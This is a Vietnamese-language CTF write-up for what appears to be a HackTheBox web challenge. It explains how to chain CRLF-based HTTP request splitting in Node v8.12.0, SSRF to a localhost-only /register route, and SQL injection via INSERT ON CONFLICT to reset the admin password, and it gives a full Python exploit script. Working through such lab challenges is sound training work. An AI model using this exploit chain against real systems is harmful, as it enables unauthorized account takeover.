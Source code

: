 ## 1. Source code:

Đầu tiên thấy trong file `index.js` có route `/login` với method `post`:
```js
router.post('/login', (req, res) => {
	let { username, password } = req.body;

	if (username && password) {
		return db.isAdmin(username, password)
			.then(admin => {
				if (admin) return res.send(fs.readFileSync('/app/flag').toString());
				return res.send(response('You are not admin'));
			})
			.catch(() => res.send(response('Something went wrong')));
	}
	
	return re.send(response('Missing parameters'));
});
```
-> Login vào tài khoản `admin` thì sẽ nhận được flag từ thư mục `/app/flag`.

Vậy tài khoản `admin` được tạo như thế nào, xem trong file `database.js` có hàm `migrate`:
```js
async migrate() {
    return this.db.exec(`
        DROP TABLE IF EXISTS users;

        CREATE TABLE IF NOT EXISTS users (
            id         INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
            username   VARCHAR(255) NOT NULL UNIQUE,
            password   VARCHAR(255) NOT NULL
        );

        INSERT INTO users (username, password) VALUES ('admin', '${ crypto.randomBytes(32).toString('hex') }');
    `);
}
```
Như vậy username sẽ là `admin`, tuy nhiên `password` lại được tạo từ chuỗi random -> không brute-force được!

Ngoài ra ta thấy có hàm `isAdmin`:
```js
async isAdmin(user, pass) {
    return new Promise(async (resolve, reject) => {
        try {
            let smt = await this.db.prepare('SELECT username FROM users WHERE username = ? and password = ?');
            let row = await smt.get(user, pass);
            resolve(row !== undefined ? row.username == 'admin' : false);
        } catch(e) {
            reject(e);
        }
    });
}
```

Hàm trên sử dụng parameterized query nên không thể sử dụng SQLi được!

Nhưng với hàm `register` thì câu query nối chuỗi -> có thể sử dụng SQLi ở đây (._.")

```js
async register(user, pass) {
    // TODO: add parameterization and roll public
    return new Promise(async (resolve, reject) => {
        try {
            let query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
            resolve((await this.db.run(query)));
        } catch(e) {
            reject(e);
        }
    });
}
```

Quay lại hàm `migrate` trong file `database.js` để xem cấu trúc database:
```js
async migrate() {
    return this.db.exec(`
        DROP TABLE IF EXISTS users;

        CREATE TABLE IF NOT EXISTS users (
            id         INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
            username   VARCHAR(255) NOT NULL UNIQUE,
            password   VARCHAR(255) NOT NULL
        );

        INSERT INTO users (username, password) VALUES ('admin', '${ crypto.randomBytes(32).toString('hex') }');
    `);
}
```
Ta thấy giá trị `username` là UNIQUE, nên không thể tạo thêm một tài khoản `admin` khác được. Như vậy ta sẽ phải cập nhật `password` của tài khoản admin hiện tại. Trong SQL có lệnh `INSERT ON CONFLICT` có thể giải quyết case này.

Tuy nhiên khi truy cập vào route `/register` thì báo lỗi `401`:
```
This page isn’t working
If the problem continues, contact the site owner.
HTTP ERROR 401
```

Quay lại xem route `/register` trong file `index.js`:
```js
router.post('/register', (req, res) => {

	if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
		return res.status(401).end();
	}

	let { username, password } = req.body;

	if (username && password) {
		return db.register(username, password)
			.then(()  => res.send(response('Successfully registered')))
			.catch(() => res.send(response('Something went wrong')));
	}

	return res.send(response('Missing parameters'));
});
```

Như vậy là ứng dụng chỉ cho phép thực hiện register từ ip `127.0.0.1` (localhost), khả năng cao sẽ liên quan đến lỗi SSRF.

Ngoài ra ta xem thêm ở hàm `getWeather` ở file `helpers/WeatherHelper.js`:
```js
module.exports = {
    async getWeather(res, endpoint, city, country) {
    ...
```
Hàm này nhận các tham số endpoint, city, country từ file `static/js/main.js` với giá trị như sau:
```js
const getWeather = async () => {

    let endpoint = 'api.openweathermap.org';

    let res  = await fetch('//ip-api.com/json/')
        .catch(() => {
            weather.innerHTML = `
                <img src='/static/host-unreachable.jpg'>
                <br><br>
                <h4>👨‍🔧 Disable blocker addons</h2>
            `;
        });

    let data = await res.json();

    let { countryCode, city } = data;

    ...
```

Biến data ở đây không được validate, như vậy có thể thực hiện injection vào data bằng cách lợi dụng việc trang web get api lấy thông tin thời tiết.

Ở file `package.json` ta có thể thấy được các biến config cũng như vesion của NodeJS là `"nodeVersion": "v8.12.0"`. 

Sau khi research, version này tồn tại lỗ hổng `Http request splitting`, tức là chúng ta có thể  gửi data đi kèm với HTTP header đến ip `127.0.0.1` để thực hiện update password admin, thông qua kỹ thuật CRLF injection.

Request:
```
POST /api/weather HTTP/1.1
Host: 68.183.47.198:30634
Content-Length: 67
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://68.183.47.198:30634
Referer: http://68.183.47.198:30634/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"endpoint":"api.openweathermap.org","city":"Hanoi","country":"VN"}
```
Response:
```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 55
ETag: W/"37-EWIxxl6u5SIYz0pD8bDkc9WVWjc"
Date: Sat, 24 Dec 2022 03:25:26 GMT
Connection: close

{"desc":"broken clouds","icon":"icon-clouds","temp":21}
```

Bây giờ ta sẽ inject vào biến endpoint phần HTTP header để trỏ đến ip 127.0.0.1 (localhost) để thực hiện chức năng register với payload như sau:

Payload:
```python
import requests

url = "http://68.183.47.198:30634/api/weather"

username = "admin"
new_password = "123456"
password = f"{new_password}') ON CONFLICT(username) DO UPDATE SET password = '{new_password}';"

username_encoded = username.replace(" ", "\u0120").replace("'", "%27").replace('"',"%22") # %27='
password_encoded = password.replace(" ", "\u0120").replace("'", "%27").replace('"',"%22") # %22="

contentLength = len(username_encoded) + len(password_encoded) + 20

# \u010D = \r, \u010A = \n, \u0120 = space
test = "127.0.0.1/\u010D\u010A" # endpoint value, look like as api.openweathermap.org
test = test + "\u010D\u010A" # blank line
test = test + "POST\u0120/register\u0120HTTP/1.1\u010D\u010A" # POST /register HTTP/1.1
test = test + "Host:\u0120127.0.0.1\u010D\u010A" # Host: 127.0.0.1
test = test + "Content-Type:\u0120application/x-www-form-urlencoded\u010D\u010A" # Content-Type: application/x-www-form-urlencoded
test = test + "Content-Length:\u0120" + str(contentLength) + "\u010D\u010A" # Content-Length: ?
test = test + "\u010D\u010A" # blank line
test = test + f"username={username_encoded}&password={password_encoded}\u010D\u010A" # payload register
test = test + "\u010D\u010A" # blank line
test = test + "GET\u0120" # GET 

r = requests.post(url = url, json={'endpoint': test, 'city': 'Ha Noi','country': 'VN'})
```

Login as `username=admin&password=123456`:

Flag: `HTB{w3lc0m3_t0_th3_p1p3_dr34m}`
